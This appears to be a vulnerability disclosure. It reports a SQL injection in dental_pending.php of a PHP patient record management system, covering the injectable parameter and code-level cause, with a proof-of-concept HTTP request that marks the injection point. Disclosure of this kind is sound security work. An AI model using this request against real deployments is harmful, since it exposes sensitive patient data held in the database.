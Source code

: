 # cve1
# patient-record-management-system-in-php has sql injection in dental_pending.php

## supplier 

https://code-projects.org/patient-record-management-system-in-php-with-source-code/#google_vignette

## Vulnerability parameter

/dental_pending.php

## describe

An unrestricted SQL injection attack exists in patient-record-management-system-in-php in dental_pending.php. The parameters that can be controlled are as follows: $id. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of $id parameter is obtained in dental_pending.php , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/0f37fc2c-2899-4001-b0bc-6d427b6507e0)



## POC

```
GET /dental_pending.php?itr_no=1* HTTP/1.1
Host: healthcarepatientrecordmanagementsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=apub8ggoc8777fmi1n9sbu6ca1
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

**Result**

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
